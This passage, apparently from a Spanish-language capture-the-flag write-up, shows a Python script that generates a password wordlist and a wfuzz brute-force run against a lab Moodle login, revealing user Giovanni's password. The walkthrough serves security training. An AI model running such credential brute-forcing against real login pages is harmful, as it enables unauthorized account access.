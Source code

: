 Tenemos que los caracteres que nos interesan parten del 33 `!` hasta el 126 `~`. Una vez definido esto, vamos a crearnos un programita en python que nos cree el diccionario:

```python
#!/usr/bin/python3

if __name__ == '__main__':
    f = open('dictionary.txt','w')
    for i in range(33, 126):
        f.write("Th4C00lTheacha{}\n".format(chr(i)))
    f.close()
```

Al ejecutarlo, nos genera el archivo `dictionary.txt` con las posibles contraseñas del usuario **Giovanni**, ahora necesitamos realizar las peticiones hacia el servidor.

```bash
❯ wfuzz -c -L --hw=1224 -w dictionary.txt -d "username=Giovanni&password=FUZZ" http://10.10.10.153/moodle/login/index.php
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/moodle/login/index.php
Total requests: 93

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                         
=====================================================================

000000003:   200        296 L    1257 W     27569 Ch    "Th4C00lTheacha#"                                               

Total time: 11.02567
Processed Requests: 93
Filtered Requests: 92
Requests/sec.: 8.434860
```

Vemos que la contraseña es `Th4C00lTheacha#` y vamos a tratar de ingresar al panel de login.
